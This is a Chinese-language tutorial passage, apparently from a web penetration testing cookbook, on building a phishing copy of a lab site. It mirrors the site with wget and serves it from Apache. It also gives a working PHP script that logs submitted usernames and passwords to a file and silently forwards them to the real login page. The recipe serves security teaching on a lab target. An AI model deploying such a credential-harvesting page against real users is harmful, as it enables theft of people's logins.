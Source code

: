 ## 9.2 使用之前保存的页面来创建钓鱼网站

在之前的秘籍中，我们使用了 SET 来复制网站并使用它来收集密码。有时候，仅仅复制登录页面不会对高级用户生效，在正确输入密码并再次重定向登录页面时，它们可能会产生怀疑，或者会试着浏览页面中的其它链接。我们这样就会失去它们，因为它们会离开我们的页面而来到原始站点。

这个秘籍中，我们会使用我们在第三章“为 Wget 离线分析下载页面”秘籍中复制的页面，来构建更加详细的钓鱼网站，因为它几乎含有所有导航，并且会在捕获证书之后登陆原始站点。

### 准备

我们需要保存 Web 页面，遵循第三章“为 Wget 离线分析下载页面”秘籍。简单来说，可以通过下列命令来完成：

```
wget -r -P bodgeit_offline/ http://192.168.56.102/bodgeit/ 
```

之后，离线页面会储存在`bodgeit_offline `目录中。

### 操作步骤

1.  第一步是将下载的站点复制到 Kali 中 APache 的根目录。在 root 终端中：

    ```
    cp -r bodgeit_offline/192.168.56.102/bodgeit /var/www/html/ 
    ```
    
2.  之后我们启动 Apache 服务：

    ```
    service apache2 start 
    ```
    
3.  下面，我们需要更新我们的登录页面，使它重定向我们收集密码的脚本。打开`bodgeit `目录（`/ var/www/html/bodgeit`）中的`login.jsp`文件，并寻找下面的代码：

    ```html
    <h3>Login</h3> 
    Please enter your credentials: <br/><br/> 
    <form method="POST">
    ```
    
4.  现在，在表单标签中添加`action`来调用`post.php`：

    ```html
    <form method="POST" action="post.php">
    ```
    
5.  我们需要在` login.jsp `的相同目录下创建该文件，创建`post.php`，带有下列代码：

    ```php
    <?php  
    $file = 'passwords_C00kb00k.txt';  
    file_put_contents($file, print_r($_POST, true), FILE_APPEND);  
    $username=$_POST["username"];  
    $password=$_POST["password"];  
    $submit="Login"; ?> 
    <body onload="frm1.submit.click()"> 
    <form name="frm1" id="frm1" method="POST" 
    action="http://192.168.56.102/bodgeit/login.jsp"> 
    <input type="hidden" value="<?php echo $username;?>" name ="username"> 
    <input type="hidden" value="<?php echo $password;?>" name ="password"> 
    <input type="submit" value="<?php echo $submit;?>" name ="submit"> 
    </form> 
    </body>
    ```
    